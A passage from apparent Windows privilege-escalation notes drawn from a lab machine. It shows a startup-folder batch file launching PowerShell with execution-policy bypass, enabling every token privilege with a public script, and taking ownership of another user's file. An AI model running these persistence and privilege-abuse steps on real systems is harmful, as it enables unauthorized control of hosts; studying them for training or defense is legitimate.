PS C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup> type run.bat
type run.bat
powershell -ep bypass -f "C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\sig.ps1"
```

It executes the PowerShell Script above. 

###### `Enabled All Privileges`
Supposed you have a couple of privileges listed when you run `whoami /priv` and found it disabled. You can enable all those privilege using [EnableAllTokenPrivs.ps1](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1) script. Here's the example

```
PS C:\ProgramData> whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Disabled
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Disabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Disabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Disabled
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Enabled 
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled 
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Disabled
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled 
SeCreateGlobalPrivilege                   Create global objects                                              Enabled 
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
SeTimeZonePrivilege                       Change the time zone                                               Disabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Disabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Disabled

# Notice that multiple Privileges Are Disabled

PS C:\ProgramData> Import-Module .\EnableAllTokenPrivs.ps1
Import-Module .\EnableAllTokenPrivs.ps1

PS C:\ProgramData> Get-Module
Get-Module

ModuleType Version    Name                                ExportedCommands                                             
---------- -------    ----                                ----------------                                             
Script     0.0        EnableAllTokenPrivs                                                                              
Manifest   3.1.0.0    Microsoft.PowerShell.Management     {Add-Computer, Add-Content, Checkpoint-Computer, Clear-Con...
Manifest   3.1.0.0    Microsoft.PowerShell.Utility        {Add-Member, Add-Type, Clear-Variable, Compare-Object...}    
Script     2.0.0      PSReadline                          {Get-PSReadLineKeyHandler, Get-PSReadLineOption, Remove-PS...

PS C:\ProgramData> whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State  
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled

```

Everything is now enabled so you can take advantage of it.

###### `Abusing SeTakeOwnershipPrivilege Privilege`

```
PS C:\users\chris> Get-Acl C:\Users\Chris\Desktop\user.txt
Get-Acl C:\Users\Chris\Desktop\user.txt


    Directory: C:\Users\Chris\Desktop


Path     Owner        Access                                                                                           
----     -----        ------                                                                                           
user.txt SNIPER\Chris SNIPER\Administrator Allow  FullControl...                                                       


PS C:\users\chris> takeown /f 'C:\Users\Chris\Desktop\user.txt'
takeown /f 'C:\Users\Chris\Desktop\user.txt'

SUCCESS: The file (or folder): "C:\Users\Chris\Desktop\user.txt" now owned by user "SNIPER\Administrator".


PS C:\users\chris> Get-Acl C:\Users\Chris\Desktop\user.txt
Get-Acl C:\Users\Chris\Desktop\user.txt

    Directory: C:\Users\Chris\Desktop

Path     Owner                Access                                                                                   
----     -----                ------                                                                                   
user.txt SNIPER\Administrator SNIPER\Administrator Allow  FullControl... 
```

Before it was own by the user Chris and now it own by Administrator.